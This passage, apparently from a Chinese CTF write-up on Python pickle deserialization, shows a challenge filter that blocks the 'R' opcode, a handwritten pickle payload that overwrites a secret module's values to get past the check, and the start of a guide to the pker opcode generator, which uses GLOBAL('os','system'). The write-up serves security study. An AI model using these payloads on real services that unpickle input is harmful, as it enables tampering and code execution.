 此外，禁止了`b'R'`：

```
try:
    pickle_data = request.form.get('data')
    if b'R' in base64.b64decode(pickle_data): 
        return 'No... I don\'t like R-things. No Rabits, Rats, Roosters or RCEs.'
```

目标是覆盖secret中的验证，由于secret被主程序引入，是存在于`__main__`下的secret模块中的，所以可以直接覆盖掉，此时就成功绕过了限制：

```
b'''c__main__
secret
(S'name'
S"1"
S"category"
S"2"
db0(S"1"
S"2"
i__main__
Animal
.'''
```

除了以上这些题外，还有BalsnCTF:pyshv1-v3和SUCTF-2019:guess_game四道题，由于手动写还是比较麻烦，在后文中使用pker工具完成。

## pker使用说明

### 简介

- pker是由@eddieivan01编写的以仿照Python的形式产生pickle opcode的解析器，可以在https://github.com/eddieivan01/pker下载源码。
- 使用pker，我们可以更方便地编写pickle opcode（生成pickle版本0的opcode）。
- 再次建议，在能够手写opcode的情况下使用pker进行辅助编写，不要过分依赖pker。
- 此外，pker的实现用到了python的ast（抽象语法树）库，抽象语法树也是一个很重要东西，有兴趣的可以研究一下ast库和pker的源码，由于篇幅限制，这里不再叙述。

### pker能做的事

引用自https://xz.aliyun.com/t/7012#toc-5：

> - 变量赋值：存到memo中，保存memo下标和变量名即可
> - 函数调用
> - 类型字面量构造
> - list和dict成员修改
> - 对象成员变量修改

具体来讲，可以使用pker进行原变量覆盖、函数执行、实例化新的对象。

### 使用方法与示例

1. pker中的针对pickle的特殊语法需要重点掌握（后文给出示例）
2. 此外我们需要注意一点：python中的所有类、模块、包、属性等都是对象，这样便于对各操作进行理解。
3. pker主要用到`GLOBAL、INST、OBJ`三种特殊的函数以及一些必要的转换方式，其他的opcode也可以手动使用：

```
以下module都可以是包含`.`的子module
调用函数时，注意传入的参数类型要和示例一致
对应的opcode会被生成，但并不与pker代码相互等价

GLOBAL
对应opcode：b'c'
获取module下的一个全局对象（没有import的也可以，比如下面的os）：
GLOBAL('os', 'system')
输入：module,instance(callable、module都是instance)  

INST
对应opcode：b'i'
建立并入栈一个对象（可以执行一个函数）：
```